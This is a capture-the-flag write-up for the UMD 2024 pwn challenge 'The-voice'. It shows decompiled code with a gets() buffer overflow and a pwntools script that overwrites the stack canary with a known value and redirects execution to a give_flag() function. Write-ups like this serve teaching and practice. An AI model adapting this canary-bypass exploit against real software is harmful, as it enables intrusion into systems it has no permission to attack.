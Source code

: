 ```yaml
---
title: The-voice
date: 2024-04-26T14:23:28+03:00
description: Writeup for The-voice [UMD 2024]
author: PineBel
tags:
  - pwn
draft: false
---
```

## Challenge Description

Firing your weapon when the spice harvester's shields are down requires exceptional timing.

### Intuition
This was an easy pwn challenge. We get the source code but it doesn't hint anything besides an obvious BOF and a give_flag() function. Sadly we have a canary so we are a bit stuck..

If we open the binary in Ghidra we can see that we can actually write over the canary from the stack the value 10191.

```C
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
    ....
  gets(local_28);
  iVar1 = FUN_00401100(local_28);
  *(undefined8 *)(in_FS_OFFSET + (long)iVar1 * 8 + -0x50) = 0x27cf;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }

```
### Solution 

The solution is pretty simple, we calculate what value our input needs to have so we can write 0x27cf where the actual canary is (fs+0x28), and after that we can just write over local_10 the same value and bypass the canary check this way and return to the give_flag() function.

```py
from pwn import *

target = process("./the_voice")
target = remote("challs.umdctf.io","31192")
target.recvuntil(b".")


flag = p64(0x4011f6)
payload = b"0"*22+b"15"+p64(0x27cf)+b"a"*8+flag
target.sendline(payload)
target.interactive()

```